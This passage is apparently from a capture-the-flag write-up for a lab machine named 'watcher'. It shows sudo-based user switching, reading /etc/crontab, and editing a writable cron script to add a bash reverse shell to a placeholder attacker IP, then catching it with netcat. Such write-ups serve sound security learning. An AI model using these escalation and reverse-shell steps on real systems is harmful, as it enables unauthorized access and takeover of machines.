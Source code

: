 ```terminal
www-data@watcher:/$ sudo -u toby /bin/bash
toby@watcher:/$
toby@watcher:/$ ls
flag_4.txt  jobs  note.txt
toby@watcher:~$ cat note.txt  
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.
```
With that, we can now `cat` the fourth flag.
## Flag 5
We have a note from someone that says there is a cronjob set up, let's see what's there:

```terminal
toby@watcher:/$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/1 * * * * mat /home/toby/jobs/cow.sh
```
There a script called **cow.sh** that runs as mat but we as toby are the owner of that file, so we can edit it to get a shell as mat. I added a bash script to **cow.sh** that sends me a reverse shell, the script now looks like this:
```terminal
$ cat cow.sh
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
/bin/bash -i >& /dev/tcp/{attacker_IP}/9001 0>&1
```
Set up a listner on port 9001 and wait.

```terminal
┌──(sirius㉿kali)-[~]                                                                                                                                 [35/36]
└─$ nc -lnvp 9001                                                                                                                                            
listening on [any] 9001 ...                                                                                                                                  
connect to [10.11.31.131] from (UNKNOWN) [10.10.18.205] 39298                                                                                                
bash: cannot set terminal process group (2119): Inappropriate ioctl for device                                                                               
bash: no job control in this shell                                                                                                                           
mat@watcher:~$                                                                                                                                                       
mat@watcher:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'                                                                                                
python3 -c 'import pty;pty.spawn("/bin/bash")'                                                                                                               
```